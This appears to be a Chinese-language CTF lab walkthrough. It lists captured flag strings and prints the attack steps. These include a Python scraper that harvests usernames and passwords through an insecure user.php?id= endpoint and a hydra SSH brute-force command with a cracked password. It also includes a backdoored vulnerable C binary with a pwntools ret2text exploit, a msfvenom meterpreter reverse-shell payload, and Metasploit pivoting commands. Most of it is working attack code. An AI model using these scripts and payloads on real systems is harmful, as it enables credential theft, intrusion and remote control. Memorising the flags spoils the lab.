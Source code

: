 
root 2024@.Skills

网卡配置[Ubuntu设置静态IP地址的几种方法\_ubuntu配置静态ip地址-CSDN博客](https://blog.csdn.net/fun_tion/article/details/126750615)

flag1{577baa20-f0a4-487e-a172-e6bc91e4b392}  /index.html

flag2{44a80690-be6f-435e-801e-b9e5ffaf231f}   /404.html

flag3{7972fddb-1eb4-41a7-9d8c-ca757e32dbcc}  /网站用户密码 flag@qq.com

flag4{892fa036-867c-409a-af48-6601229ebc0c}  /home/mike

flag5{075ae034-1d2d-4708-a42d-0c4d1ce61b4c} /flag       root用户可读

flag6{f8fb0360-ff9f-48ba-8d05-76445968bf59} /win7  flag.txt

flag7{32ba92db-cbe6-457f-843c-e476053964ca} /Game_Of_Life2

flag{94eda7bc-b4cf-4679-aafd-628a9cfbd563} /systemview

flag{e893507b-5a51-460c-a973-6de5ca015641} /flag.exe
# 写爬虫爬取所有用户密码
```python
import os 
import re
from datetime import datetime
import requests
import urllib3
from colorama import init
init(autoreset = True)

def write1(user_match):
	curr_dir = os.getcwd()
	vuln_file = '/user_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{user_match}"+"\n")
	f.close()
	
def write2(pass_match):
	curr_dir = os.getcwd()
	vuln_file = '/pass_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{pass_match}"+"\n")
	f.close()	

def poc_url(id):
	urllib3.disable_warnings()
	url1 = f"http://192.168.44.133/customer/user.php?id={id}"
	proxy = {
		'http':'http://127.0.0.1:8080',
		'https':'http://127.0.0.1:8080'
	}
	headers = {
		"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
		"Cookie":"PHPSESSID=dv5jvd9q7d5e6tk0itdfj5f96d"
	}
	res = requests.get(url1,headers=headers,proxies=None,verify=False,timeout=5)
	if res.status_code == 200:
		user_match = re.search(r'<input type="text" id="name" name="name" value="([^"]+)" required>',res.text).group(1).lower().split()[0]
		pass_match = re.search(r'<input type="password" id="oldpassword" name="oldpassword" value="([^"]+)" required>',res.text).group(1)
		
	write1(user_match)
	write2(pass_match)

if __name__ == '__main__':
	for i in range(1,30):
		poc_url(i)




# python写程序遇到了这个问题,vim打开时最后一个字符都是^M，导致输出的文本不可读出内容，只能用文本编辑器打开。file多了个with CR line terminators，转换成unix也不能解决，最后把换行符号换成"\n"才解决！

```

# 爆破SSH
```C
hydra -L user_20240416.txt -P pass_20240416.txt -t 16 ssh://192.168.44.133 

[22][ssh] host: 10.0.2.15   login: mike   password: 6G3UCx6aH6UYvJ6m

```

# 提权题目：
```c
#include <stdio.h>
void init(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}
void vuln(){
    char buf[8];
    puts(">>");
    read(0, buf, 0x100);
}
void backdoor(){
    system("/bin/sh");
}
int main(){
    init();
    vuln();
    return 0;
}

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie -m32
```


```python
from pwn import *
#context(os='linux',arch='i386',log_level='debug')
p=process('./ret2text1_32')
elf = ELF('./ret2text1_32')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
bin_sh=0x8048643
bin_sh_chuancan=0x8048585
offset=20
payload=b"a"*offset + p32(bin_sh_chuancan)
p.sendline(payload)
p.interactive()

```


msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exploit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

run post/multi/manage/autoroute
run autoroute -p

auxiliary/server/socks_proxy-------------------------set SRVHOST  192.168.18.242